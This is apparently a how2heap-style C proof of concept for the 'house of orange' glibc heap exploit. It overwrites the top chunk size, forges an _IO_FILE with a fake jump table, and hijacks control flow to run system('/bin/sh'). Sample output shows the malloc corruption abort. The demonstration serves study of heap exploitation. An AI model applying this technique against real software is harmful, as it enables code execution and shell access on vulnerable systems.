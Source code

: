 ### house_of_orange

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int winner (char *ptr);

int main() {
    char *p1, *p2;
    size_t io_list_all, *top;

    p1 = malloc(0x400 - 0x10);

    top = (size_t *) ((char *) p1 + 0x400 - 0x10);
    top[1] = 0xc01;

    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;
    top[3] = io_list_all - 0x10;

    memcpy((char *) top, "/bin/sh\x00", 8);

    top[1] = 0x61;

    _IO_FILE *fp = (_IO_FILE *) top;
    fp->_mode = 0; // top+0xc0
    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(_IO_FILE)) = (size_t) jump_table; // top+0xd8

    malloc(1);
    return 0;
}

int winner(char *ptr) {
    system(ptr);
    return 0;
}
```

```text
$ gcc -g house_of_orange.c
$ ./a.out
*** Error in `./a.out': malloc(): memory corruption: 0x00007f3daece3520 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f3dae9957e5]
/lib/x86_64-linux-gnu/libc.so.6(+0x8213e)[0x7f3dae9a013e]
/lib/x86_64-linux-gnu/libc.so.6(__libc_malloc+0x54)[0x7f3dae9a2184]
./a.out[0x4006cc]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7f3dae93e830]
./a.out[0x400509]
======= Memory map: ========
00400000-00401000 r-xp 00000000 08:01 919342                             /home/firmy/how2heap/a.out
00600000-00601000 r--p 00000000 08:01 919342                             /home/firmy/how2heap/a.out
00601000-00602000 rw-p 00001000 08:01 919342                             /home/firmy/how2heap/a.out
01e81000-01ec4000 rw-p 00000000 00:00 0                                  [heap]
7f3da8000000-7f3da8021000 rw-p 00000000 00:00 0
7f3da8021000-7f3dac000000 ---p 00000000 00:00 0
```